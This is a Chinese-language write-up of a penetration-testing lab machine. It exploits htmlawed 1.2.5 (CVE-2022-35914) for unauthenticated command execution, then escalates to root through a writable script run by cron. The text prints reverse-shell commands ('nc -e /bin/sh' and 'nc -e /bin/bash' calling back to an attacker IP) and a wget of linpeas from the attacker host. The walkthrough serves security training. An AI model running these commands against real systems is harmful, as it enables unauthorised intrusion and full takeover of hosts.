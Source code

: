 ```yaml
---
description: 中等 / htmlawed 1.2.5 / CVE-2022-35914 / 远程命令执行 / 计划任务提权
---
```


# ✔️ Law

## 建立立足点

### 信息收集

* 使用Nmap对目标系统的开放端口进行扫描：

```bash
nmap -sC -sV -p- -oA law 192.168.210.190 --open
```

<figure><img src="../../.gitbook/assets/1 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 检查80端口上的内容，发现正在运行的服务及其版本号为：htmlawed 1.2.5

<figure><img src="../../.gitbook/assets/2 (2) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 搜索htmlawed 1.2.5相关已知公开漏洞，发现一个远程命令执行漏洞：

<figure><img src="../../.gitbook/assets/3 (24).png" alt=""><figcaption></figcaption></figure>

* 得知htmlawed 1.2.5版本存在着CVE-2022-35914的漏洞，该漏洞说明了htmlawed是属于GLPI软件中的一个第三方库，其中包含了一个可用于执行系统命令的测试文件的默认路径：**vendor/htmlawed/htmlawed/htmLawedTest.php**，这意味着我们可以未经身份验证就能执行远程代码执行：

<figure><img src="../../.gitbook/assets/4 (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/5 (3) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 直接访问该路径失败，没找到这个页面：

<figure><img src="../../.gitbook/assets/6 (2) (1).png" alt=""><figcaption></figcaption></figure>

* 同时找到了适用于CVE-2022-35914的PoC，但利用没有成功：

<figure><img src="../../.gitbook/assets/7 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/8 (2) (1).png" alt=""><figcaption></figcaption></figure>

* 分别使用dirsearch和gobuster没有扫出来任何文件/目录，推测目标系统中没有这个路径，因此尝试修改脚本中的默认路径为根目录：

<figure><img src="../../.gitbook/assets/9 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/10 (3).png" alt=""><figcaption></figcaption></figure>

* 此时发现脚本可以成功执行：

<figure><img src="../../.gitbook/assets/11 (3).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 根据利用脚本的帮助信息，可以指定执行的命令，因此直接指定反弹shell：

```bash
python3 CVE-2022-35914.py -u http://192.168.228.190 -c 'nc -e /bin/sh 192.168.45.161 4444'
```

<figure><img src="../../.gitbook/assets/12 (3).png" alt=""><figcaption></figcaption></figure>

* 本机做好监听，即可获得回连的shell：

<figure><img src="../../.gitbook/assets/13 (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/14 (3).png" alt=""><figcaption></figcaption></figure>

```bash
# 升级shell
find / -name python*
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

## 权限提升

### 本地信息收集

* 简单的手动枚举没有什么能利用的，决定上传linpeas进行本地信息收集，当前所在的/var/www/目录没有写入权限，所以要切换到/tmp目录下：

```bash
# 在Kali本机linpeas.sh脚本所在的目录下开启服务器
python3 -m http.server 8888
# 在目标系统的/tmp目录下获取脚本文件
wget http://192.168.45.161:8888/linpeas.sh
```

<figure><img src="../../.gitbook/assets/15 (23).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/16 (22).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/17 (20).png" alt=""><figcaption></figcaption></figure>

* 执行linpeas.sh脚本后，虽然没有找到可以直接利用的凭证信息，但是也发现了以下两处都出现了/var/www/目录下的<mark style="color:red;">**cleanup.sh文件**</mark>：

<figure><img src="../../.gitbook/assets/18 (3).png" alt=""><figcaption></figcaption></figure>

* 这部分意味着以下文件可以由非root用户创建和修改：

<figure><img src="../../.gitbook/assets/19 (3).png" alt=""><figcaption></figcaption></figure>

* 这部分意味着当前的用户权限对以下文件是有写入权限的：

<figure><img src="../../.gitbook/assets/20 (2).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 回到/var/www/目录下，查看cleanup.sh文件内容，发现是一个用于删除log日志的脚本文件，大概率和计划任务有关联：

<figure><img src="../../.gitbook/assets/21 (1).png" alt=""><figcaption></figcaption></figure>

* 查看计划任务：

<figure><img src="../../.gitbook/assets/22 (1).png" alt=""><figcaption></figcaption></figure>

* 在linpeas的输出信息中发现设置了一个用于定时清理的计时器：phpsessionclean.timer

<figure><img src="../../.gitbook/assets/23 (1).png" alt=""><figcaption></figcaption></figure>

* 在阅读/cron.d目录中的php文件内容时，里面也设置了每第9分钟和第39分钟的时候以root身份运行一次sessionclean文件：

<figure><img src="../../.gitbook/assets/24 (1).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 由此，当我们可以以低权限账户来修改cleanup.sh的内容时，直接写入反弹shell的命令，然后等待计划任务自动执行，即可获取到shell：

```bash
echo 'nc -e /bin/bash 192.168.45.161 9999' >> cleanup.sh
```

<figure><img src="../../.gitbook/assets/25 (1).png" alt=""><figcaption></figcaption></figure>

* 在Kali本机做好监听，等待即可：

<figure><img src="../../.gitbook/assets/26 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/27 (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例get shell阶段当找不到漏洞利用的默认路径时，以为掉进了“兔子洞”，心态有点崩，但是因为该机器开放端口只有两个，在没有任何有效凭证的情况下，只有80端口是切入点，因此只要冷静下来尝试多修改几次脚本中的URI，就能利用成功。

利用计划任务进行提权的本质是，找到目标系统中可以让低权限账户修改的脚本，并且该脚本会由高权限账户定期执行，此时只需要写入自定义的操作，等待其定期执行即可。
{% endhint %}
